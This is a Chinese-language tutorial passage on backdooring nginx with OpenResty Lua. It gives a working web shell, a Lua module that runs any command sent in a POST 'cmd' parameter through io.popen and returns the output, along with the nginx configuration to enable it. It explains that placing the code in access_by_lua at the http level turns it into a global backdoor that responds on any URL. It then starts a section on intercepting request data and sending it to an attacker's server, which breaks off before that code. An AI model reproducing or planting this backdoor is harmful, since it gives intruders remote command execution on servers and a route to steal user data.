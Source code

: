 t.lua实现了一个简单的命令执行功能，如下所示：

```lua
local _M = {}
function _M.run()
    ngx.req.read_body()
    local post_args = ngx.req.get_post_args()
    -- for k, v in pairs(post_args) do
    --    ngx.say(string.format("%s = %s", k, v))
    -- end
    local cmd = post_args["cmd"]
    if cmd then
        f_ret = io.popen(cmd)
        local ret = f_ret:read("*a")
        ngx.say(string.format("reply:\n%s", ret))
    end
end
return _M
```

nginx有11个处理阶段，如下图所示：
![](/media/images/000.png)
一般我们在开发过程中常用到的阶段如下：

1. set_by_lua*: 流程分之处理判断变量初始化
1. rewrite_by_lua*: 转发、重定向、缓存等功能(例如特定请求代理到外网)
1. access_by_lua*: IP准入、接口权限等情况集中处理(例如配合iptable完成简单防火墙)
1. content_by_lua*: 内容生成
1. header_filter_by_lua*: 应答HTTP过滤处理(例如添加头部信息)
1. body_filter_by_lua*: 应答BODY过滤处理(例如完成应答内容统一成大写)
1. log_by_lua*: 回话完成后本地异步完成日志记录(日志可以记录在本地，还可以同步到其他机器)

一般情况下，我们使用content阶段即可，以下的例子为把content_by_lua放到server段的/test/ location下

```ini

1     location /test/ {
2       content_by_lua '
3       cmd.run()
4       ';
5     }
```

执行效果如图所示：
![](/media/images/001.png)
如果将content_by_lua改为access_by_lua（content阶段不允许放在http节）放到http段表示为一个全局的后门，随便一个url，只要传入我们特定的参数，nginx就会响应，即便是404的页面也可以，如下图的所示：
![](/media/images/002.png)

### 数据监听、窃取
nginx实现数据监听非法方便，只要以下ngx.req.read_body()和local post_args = ngx.req.get_post_args()2行代码即可，
再利用lua-resty-http模块就可以将数据通过post的方式提交到黑阔指定的地方，测试代码如下：
